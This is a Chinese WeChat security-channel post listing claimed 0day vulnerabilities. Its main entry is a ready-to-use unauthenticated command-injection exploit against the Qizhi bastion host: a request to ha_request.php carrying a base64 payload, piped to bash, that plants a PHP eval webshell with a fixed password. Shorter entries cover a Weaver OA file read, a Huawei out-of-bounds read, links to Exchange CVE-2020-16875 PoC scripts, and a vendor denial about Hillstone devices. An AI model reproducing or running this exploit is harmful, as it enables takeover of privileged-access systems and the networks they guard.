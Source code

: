\> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/1gK\_7-neW6InBKlV1s27JA)

截止到今日：0day 清单

![](https://mmbiz.qpic.cn/mmbiz_png/enXQnPDrqyyRe0yyNXAPn8cPR9uV3ovY7e0icGgVeZ9s1RRjic56CQyRWo0HciamIOt8jp73KHFmHpYZOvvYwhoqg/640?wx_fmt=png)

**齐治堡垒机前台远程命令执行漏洞**

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G57EXGrQmyASmoglFmnrLlQicTkKylUa8urPQDWqPWgIeAJibmibn5Ze9bdqdftGZkrMlOLCNZ7JsNiaA/640?wx_fmt=png)

**漏洞利用：**

利用条件：无需登录：  
第一  

http://10.20.10.11/listener/cluster\_manage.php 返回 “OK”。  
第二，执行以下链接即可 getshell，执行成功后，生成 PHP 一句话马  

/var/www/shterm/resources/qrcode/lbj77.php 密码 10086，使用 BASE64 进行编码。这里假设 10.20.10.10 为堡垒机的 IP 地址。  

```
https://10.20.10.10/ha\_request.php?action=install&ipaddr=10.20.10.11&node\_id=1${I
FS}|\`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz
4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64
${IFS}-d|bash\`|${IFS}|echo${IFS}

```

特征：  
漏洞利用点：  

```
https://10.20.10.10/ha\_request.php
Poc 形式：
${IFS}|\`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7
Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base
64${IFS}-d|bash\`|${IFS}|echo${IFS}

```

**泛微 OA 云桥任意文件读取漏洞**

利用 / wxjsapi/saveYZJFile 接口获取 filepath, 返回数据包内出现了程序的绝对路径, 攻击者可以通过返回内容识别程序运行路径从而下载数据库配置文件危害可见。  

![](https://mmbiz.qpic.cn/mmbiz_jpg/enXQnPDrqyyRe0yyNXAPn8cPR9uV3ovYayFwlaUOPy86oaSSlkeuff9AGL8MiaYibrqfr8ujJJc8ibppZhHt85szA/640?wx_fmt=jpeg)

**多款 Huawei 产品越界读取漏洞**
======================

![](https://mmbiz.qpic.cn/mmbiz_png/enXQnPDrqyyRe0yyNXAPn8cPR9uV3ovYcBPW1cShO41fJd1ZYtKqUOCicic89B1UcohPI9heibJa1nLAZmPOT1LfA/640?wx_fmt=png)

参考链接：https://www.cnvd.org.cn/flaw/show/CNVD-2020-36735

**Exchange Server 远程代码执行漏洞（POC 未验证）  
**

CVE-2020-16875: Exchange Server 远程代码执行漏洞（202009 月度漏洞）

ps 版 POC：https://srcincite.io/pocs/cve-2020-16875.ps1.txt

py 版 POC：https://srcincite.io/pocs/cve-2020-16875.py.txt

**网传：山石 SG-6000 设备存在漏洞** 

官方辟谣称 该公告并不是指设备本身存在漏洞，而是某个使用山石网科网络安全设备的管理员安全意识不足，配置不当导致，实属于事件型安全漏洞。

![](https://mmbiz.qpic.cn/mmbiz_jpg/NGIAw2Z6vnKDh1fj2lChlrBw7l8IUjOq4UpxiaPibovEWdCDsjPkic7aOG8kmjrkEOklCH8aUp1yg98cHaQfaVAiag/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/enXQnPDrqyyRe0yyNXAPn8cPR9uV3ovYoprOT3Sec1y8m9L4rufzDsa3vUFiacp32WHGRkJPlksvjGqvwrcLGMw/640?wx_fmt=png)

参考链接：https://mp.weixin.qq.com/s/lg2ttFSIybginh6KNS-SGQ

禁止非法，后果自负

欢迎关注公众号：web 安全工具库

![](https://mmbiz.qpic.cn/mmbiz_jpg/8H1dCzib3UibuBgB7qfQsvQ51Ak1Z0bcNMyR2JKE1j3kqnBdeIhDdB9icZyhxyLicgFuIghKbGTW6icP8Tpfulo4nuw/640?wx_fmt=jpeg)